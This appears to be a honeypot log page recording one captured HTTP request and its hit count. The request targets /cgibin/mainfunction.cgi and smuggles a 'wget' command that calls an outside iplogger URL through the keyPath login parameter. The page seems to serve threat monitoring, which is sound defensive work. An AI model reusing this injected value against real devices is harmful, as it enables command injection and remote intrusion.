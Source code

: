 # Analysis for /cgibin/mainfunction.cgi&action=login&keyPath=wget+https%3A%2F%2Fiplogger.org/2EULU5&loginUser=a&loginPwd=a
| POTS | COUNT | CVE | FILE CREATED |
|---|---|---|---|
| 19 | 19 | | 220110-033754 |

## CVE: 